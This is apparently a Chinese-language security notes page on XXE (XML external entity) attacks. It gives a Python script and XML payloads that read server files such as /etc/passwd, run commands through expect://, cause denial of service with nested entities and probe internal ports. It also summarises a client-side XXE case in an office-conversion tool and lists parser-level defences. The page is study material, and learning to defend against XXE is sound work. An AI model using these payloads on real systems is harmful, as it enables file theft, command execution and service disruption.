# XXE攻击思路



## 1 读取文件.py

```
#!/usr/bin/python
# -*- coding:utf-8 -*-
import urllib2

if __name__ == '__main__':

    print u'输入要访问的地址，如http://127.0.0.1/xml/xxe2.php'
    url = raw_input()
    count=1
    while count==1:
        print u'输入要读取的文件，如file:///etc/passwd'
        payload = raw_input()
        headers = {'Content-type': 'text/xml'}
        xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'
        req = urllib2.Request(url = url,headers = headers, data = xml)
        res_data = urllib2.urlopen(req)
        res = res_data.read()
        print res
```

[![img](https://gitee.com/taochiyu/blogimage/raw/master/img/20211103124006.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191202152024-3548448c-14d4-1.png)
通过urllib2的request方法用POST方式向目标地址发送XML数据，返回的数据即为服务器相关文件内容。

## 2、执行系统命令

这个好像只在php5.。  php7 不支持 expect 模块

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

通过XXE可以实现RCE的实例很少。

## 3、拒绝服务攻击(Dos)

```
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**原理**：递归引用,lol 实体具体还有 “lol” 字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个 “lol” 了，以此类推，lol9 实体含有 10^8 个 “lol” 字符串,最后再引用lol9。

## 4、探测内网端口与攻击内网网站

**探测内网端口**

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

3306端口开放



## **三、客户端XXE案例**

​	日前，某office文档转换软件被爆存在XXE漏洞（PS:感谢TSRC平台白帽子Titans`报告漏洞），某一应用场景为：Web程序调用该office软件来获取office文档内容后提供在线预览。由于该软件在处理office文档时，读取xml文件且允许引用外部实体，当用户上传恶意文档并预览时触发XXE攻击。详情如下：


	新建一个正常文档，内容为Hi TSRC，



![img](https://security.tencent.com/uploadimg_dir/201409/34f7f2ecbd1564ee98c22cf0fb1a4a25.png)



​	使用该软件转换后可以得到文本格式的文档内容，



![img](https://security.tencent.com/uploadimg_dir/201409/45284cfd4997e2eee013248e239aa0f9.png)



![img](https://security.tencent.com/uploadimg_dir/201409/a2d2d2bf23e1808dee35d7b16dc64c74.png)



​	当往该docx的xml文件注入恶意代码（引用外部实体）时，可进行XXE攻击。



![img](https://gitee.com/taochiyu/blogimage/raw/master/img/20211103124250.png)



![img](https://gitee.com/taochiyu/blogimage/raw/master/img/20211103124244.png)



##  文章



`https://xz.aliyun.com/t/6887#toc-3`

`https://medium.com/@klose7/xxe-attacks-part-2-xml-dtd-related-attacks-a572e8deb478`

`https://security.tencent.com/index.php/blog/msg/69`

`https://www.shuzhiduo.com/A/obzb8R3Q5E/`



## 注意几点：

Libxml2.9.0 以后 ，默认不解析外部实体，对于PHP版本不影响XXE的利用

默认就是libxml_disable_entity_loader(true);



## 0x06 XXE漏洞防御

**1、使用开发语言提供的禁用外部实体的方法**
php:

```
libxml_disable_entity_loader(true);
```

java:

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python:

```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

**2、过滤用户提交的XML数据**
过滤关键字：`<\!DOCTYPE`和`<\!ENTITY`，或者`SYSTEM`和`PUBLIC`。
**3、不允许XML中含有自己定义的DTD**